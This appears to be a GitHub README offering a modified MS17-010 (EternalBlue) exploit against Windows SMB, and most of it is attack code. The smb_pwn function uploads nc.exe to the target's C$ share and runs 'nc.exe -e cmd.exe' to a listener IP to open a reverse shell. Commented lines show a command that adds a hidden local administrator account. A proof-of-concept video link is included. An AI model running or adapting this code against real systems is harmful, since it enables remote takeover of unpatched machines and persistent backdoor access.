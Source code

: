 # MS-17-010_Reverse_Connection_nc
#### Run MS17-010 modified exploit to get reverse nc connection

##### Change LHOST and LPORT. This is your IP address and port where you are listening.
##### nc.exe is in same folder where you saved the script.

#### Modified Code
---------------------------------------------------------------------------------------------------------------------------------------

def smb_pwn(conn, arch):
	smbConn = conn.get_smbconnection()	
	#print('creating file c:\\pwned.txt on the target')
	tid2 = smbConn.connectTree('C$')
	#fid2 = smbConn.createFile(tid2, '/pwned.txt')
	#smbConn.closeFile(tid2, fid2)
	#smbConn.disconnectTree(tid2)
	
	#smb_send_file(smbConn, 'Full path of nc in local', 'C', '/nc.exe')
	smb_send_file(smbConn, 'nc.exe', 'C', '/nc.exe')
	#service_exec(conn, r'cmd /c net user temp temp123 /add && net localgroup administrators temp /add')
	print "check your nc...for reverse connection...."
	#service_exec(conn, r'cmd /c c:\\nc.exe -e cmd.exe LHOST LPORT')
	service_exec(conn, r'cmd /c c:\\nc.exe -e cmd.exe 10.11.0.152 3333')
	smbConn.disconnectTree(tid2)
	
	# Note: there are many methods to get shell over SMB admin session
	# a simple method to get shell (but easily to be detected by AV) is
	# executing binary generated by "msfvenom -f exe-service ..."
	
def smb_send_file(smbConn, localSrc, remoteDrive, remotePath):
	with open(localSrc, 'rb') as fp:
		smbConn.putFile(remoteDrive + '$', remotePath, fp.read)
		
----------------------------------------------------------------------------------------------------------------------------------------


POC: https://giant.gfycat.com/HappygoluckyEdibleHummingbird.webm

![Alt Text](https://giant.gfycat.com/HappygoluckyEdibleHummingbird.gif)
